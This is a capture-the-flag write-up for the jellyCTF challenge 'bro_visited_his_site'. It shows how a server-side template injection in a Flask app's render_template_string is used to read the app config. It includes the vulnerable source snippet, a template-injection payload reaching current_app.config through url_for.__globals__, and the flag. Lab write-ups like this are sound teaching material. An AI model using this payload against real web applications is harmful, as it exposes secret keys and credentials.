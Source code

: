 # bro_visited_his_site

## Difficulty

Easy

## Points Earned

343

## Description

> bro stored his secrets in the flask app config
> 
> note: this is not /app/flag.txt - that's bro_visited_his_site_2
> 
> 10 point hint: attack type
> 
> 20 point hint: writeup for similar problem
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

## Solution

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. We can use double brackets to execute code as well. For example, when I input `{{7*7}}` I get `49pilled 49maxxer`. However I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
return render_template_string(f'''
    {{% set config="friend" %}}
    {{% set self="visit" %}}
    <p>
        {word}pilled {word}maxxer
    </p>
```

I unlocked hint 2 and got a link to this write up: https://ctftime.org/writeup/10895

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the address bar.

![bro_visited_his_site solution](./images/bro_visited_his_site_sol.png "bro_visited_his_site solution")

## Flag

`jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`